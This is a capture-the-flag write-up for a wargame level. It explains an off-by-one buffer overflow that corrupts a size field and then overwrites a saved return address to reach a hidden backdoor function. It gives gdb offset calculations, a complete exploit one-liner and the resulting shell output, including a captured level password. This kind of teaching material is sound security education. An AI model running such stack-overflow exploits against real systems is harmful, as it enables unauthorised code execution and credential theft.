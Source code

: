 The executable file is in ELF 64-bit format.

The program's exploitation is quite simple: in the set_username() function, the input is sotred in a 128 bytes buffer, which is then copied into `message->username` (of size 40) within a for loop that has a bad stop condition: `for (int i = 0; i <= 40 && buf[i]; i++)`. So we can write stuff at `message->username + 40`, which is actually `message->size`.

`message->size` is used when calling strncpy() in the set_msg() function. By modifying it, we will be able to write much more in `message->msg`, and thus overwrite the return address of the set_msg() function. We can then pass the address of the sercret_backdoor() function present in the program.

1. First of all, we have to overwrite message->size by entering 40 bytes + 1 for the username. In order to have some margin, we can enter \xff (255): `python -c 'print "A" * 40 + "\xff"'`

2. Then we need to find the offset of the handle_msg() return address (since `message->msg` is declared within this function). We know that `message->msg` is located at -0xc0(%rbp). By placing a breakpoint in gdb, we can calculate its effective address: 

```
(gdb) b *0x0000555555554930
Breakpoint 1 at 0x555555554930
(gdb) r
Starting program: /home/users/level09/level09 
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7ffff7ffa000
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: a
>: Welcome, aaaa
>: Msg @Unix-Dude
>>: a
>: Msg sent!

Breakpoint 1, 0x0000555555554930 in handle_msg ()
(gdb) p $rbp-0xc0
$1 = (void *) 0x7fffffffe500
```

Now that we have the address of `message->msg`, we need to find the address of RIP which holds the handle_msg() return address.

```
(gdb) info frame
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x555555554930 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args: 
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8
```

Now we just have to calculate the offset:
```
(gdb) p 0x7fffffffe5c8 - 0x7fffffffe500
$2 = 200
```

So we have to fill in 200 bytes of padding, followed by the secret_backdoor() address (0x000055555555488c).

3. We add a cat - to keep the program open.

4. Once in secret_backdoor(), we can launch a shell with the sh command, or directly display the content of /home/users/end/.pass with the cat command. 

```
level09@OverRide:~$ (python -c 'print "A" * 40 + "\xff"' ; python -c 'print "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"' ; cat -) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
sh
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```